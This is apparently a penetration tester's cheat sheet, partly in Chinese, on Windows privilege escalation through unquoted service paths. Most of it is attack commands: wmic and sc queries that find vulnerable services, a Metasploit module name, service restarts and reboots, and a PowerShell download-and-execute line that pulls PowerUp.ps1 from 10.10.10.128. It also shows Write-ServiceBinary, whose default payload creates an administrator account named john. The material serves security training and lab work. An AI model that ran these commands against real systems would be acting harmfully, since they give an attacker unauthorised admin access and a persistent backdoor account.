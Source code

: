 ```bat
# 加载顺序如下
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe

# list all unquoted service path, minus built-in windows service
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ #Not only auto services

# Other way
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
	for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
		echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
	)
)

# 搜索不带引号且其中有空格的服务
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" |findstr /i /v """

# msf 
exploit/windows/local/trusted_service_path

# 重启服务
sc stop WeskService,sc start WeakService

# 重启系统
shutdown /r /t 0
# schedule shutdown and exit shell, avoid the crash and stall reboot
shutdown /r /t 10 && exit

# powerup 查看
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.128/Powershell/PowerSploit/Privesc/PowerUp.ps1');Get-UnquotedService"

# powerup write service 
Write-ServiceBinary
# 默认执行的命令为添加用户并添加至local
net user john Password123! /add && timeout /t 5 && net localgroup Administrators john /add

# -name, sevice name
Write-ServiceBinary -Name WeakService -UserName john -Password Password123! #这样传入的参数
```

### Recovery Actions
Learn later; from hacktricks.
+ It's possible to indicate Windows what it should do [when executing a service this fails](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc753662(v=ws.11)?redirectedfrom=MSDN). + If that setting is pointing a binary and this binary can be overwritten you may be able to escalate privileges.
